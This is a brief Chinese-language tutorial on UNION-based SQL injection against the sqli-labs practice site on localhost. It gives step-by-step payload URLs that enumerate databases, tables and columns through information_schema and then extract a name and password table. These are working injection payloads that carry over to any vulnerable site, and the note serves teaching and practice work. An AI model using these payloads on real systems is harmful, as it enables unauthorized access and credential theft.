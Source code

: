 # SQL注入之高权限注入

1.注入流程与上节实例相同

#### 查询所有数据库名称

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/fdc981b9a55d426f8ac014bb61d6356f.png)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(schema_name),3 from information_schema.schemata
```

#### 查询数据库对应的表名

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/5fd74715c4a24cb8bcebec4a7778a0f1.png)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'
```

#### 查询表名对应的字段名

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/8cbb187549814a32afc2cb0a82b7765b.png)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
```

#### 查询数据

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/1b9dc7926a544a1197a7f93a5be493d8.png)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,name,pass from test.t1
```
